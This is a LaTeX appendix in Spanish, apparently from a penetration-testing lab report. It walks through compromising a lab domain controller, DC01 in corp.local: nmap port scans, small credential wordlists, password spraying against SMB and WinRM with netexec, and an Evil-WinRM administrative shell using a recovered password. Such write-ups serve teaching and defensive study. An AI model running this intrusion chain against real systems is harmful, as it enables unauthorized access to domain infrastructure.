\crearanexo{Enumeración y compromiso del controlador de dominio DC01}{anexo:compromiso_dc01}

% ---------------------------------------------------

\subsubsection*{Objetivo}

El objetivo de esta fase es identificar el controlador de dominio de la red interna, enumerar los servicios de Active Directory y validar el acceso remoto administrativo mediante WinRM.

\subsubsection*{Reconocimiento de DC01}

Tras establecer el túnel hacia la red interna, se realiza un escaneo completo sobre el controlador de dominio:

\begin{bashbox}
sudo nmap -p- \
-sS \
--min-rate 5000 \
--open \
-vvv \
-n \
-Pn \
-T4 \
--max-retries 1 \
10.10.10.5 \
-oG allPorts
\end{bashbox}

Posteriormente se extraen los puertos detectados y se ejecuta un escaneo detallado:

\begin{bashbox}
nmap -sCV \
-p53,88,135,139,389,445,464,593,3268,5985,9389 \
10.10.10.5
\end{bashbox}

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\textwidth]{Imagenes/scaneo-DC01.png}

    \vspace{0.2cm}
    \captionazul{Enumeración inicial del controlador de dominio DC01.}
    \label{fig:anexo_scaneo_dc01}
\end{figure}

El análisis permite identificar el sistema como un controlador de dominio Windows Server. Entre la información obtenida destacan:

\begin{configbox}
Nombre del equipo: DC01
Dominio: corp.local
FQDN: DC01.corp.local
\end{configbox}

Los servicios expuestos son característicos de Active Directory:

\renewcommand{\arraystretch}{1.4}
\begin{table}[H]
    \centering
    \captionazul{Servicios principales identificados en DC01}

    \begin{tabular}{|C{3cm}|C{7cm}|}
        \hline
        \rowcolor{blue!10}
        \textbf{Puerto} & \textbf{Servicio} \\
        \hline
        53 & DNS \\
        \hline
        88 & Kerberos \\
        \hline
        389 & LDAP \\
        \hline
        445 & SMB \\
        \hline
        3268 & Global Catalog \\
        \hline
        5985 & WinRM \\
        \hline
        9389 & Active Directory Web Services \\
        \hline
    \end{tabular}

    \label{tab:anexo_servicios_dc01}
\end{table}
\renewcommand{\arraystretch}{1}

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\textwidth]{Imagenes/scaneo-DC01-detalle.png}

    \vspace{0.2cm}
    \captionazul{Detalle de servicios expuestos por DC01, incluyendo servicios propios de Active Directory.}
    \label{fig:anexo_scaneo_dc01_detalle}
\end{figure}

\subsubsection*{Preparación de diccionarios reducidos}

Con fines didácticos se utilizan diccionarios reducidos adaptados al laboratorio. Esto permite validar la técnica sin ejecutar ataques prolongados innecesarios.

Usuarios:

\begin{configbox}
dev
Administrador
Administrator
admin
system_admin
\end{configbox}

Contraseñas:

\begin{configbox}
Password123
dev123
Admin123
Admin123*
administrator
admin123
P@ssw0rd
P@ssw0rd123
\end{configbox}

\subsubsection*{Validación contra SMB}

Se prueban las combinaciones contra SMB:

\begin{bashbox}
netexec smb \
10.10.10.5 \
-d CORP \
-u users_lab.txt \
-p passwords_lab.txt
\end{bashbox}

El resultado esperado identifica credenciales válidas con privilegios elevados:

\begin{configbox}
CORP\Administrador:Admin123*
\end{configbox}

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\textwidth]{Imagenes/login-brute-force.png}

    \vspace{0.2cm}
    \captionazul{Validación de credenciales administrativas contra los servicios del controlador de dominio.}
    \label{fig:anexo_login_brute_force_dc01}
\end{figure}

\subsubsection*{Validación contra WinRM}

A continuación se comprueba que las mismas credenciales permiten autenticarse contra WinRM:

\begin{bashbox}
netexec winrm \
10.10.10.5 \
-d CORP \
-u users_lab.txt \
-p passwords_lab.txt
\end{bashbox}

\subsubsection*{Acceso remoto mediante Evil-WinRM}

Con credenciales válidas se establece una sesión remota interactiva sobre DC01:

\begin{bashbox}
evil-winrm \
-i 10.10.10.5 \
-u Administrador \
-p 'Admin123*'
\end{bashbox}

Una vez dentro, se valida el contexto de ejecución:

\begin{configbox}
whoami
hostname
\end{configbox}

Resultado esperado:

\begin{configbox}
corp\Administrador
DC01
\end{configbox}

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\textwidth]{Imagenes/evil-wnrm-DC01.png}

    \vspace{0.2cm}
    \captionazul{Acceso remoto al controlador de dominio DC01 mediante Evil-WinRM.}
    \label{fig:anexo_evil_winrm_dc01}
\end{figure}

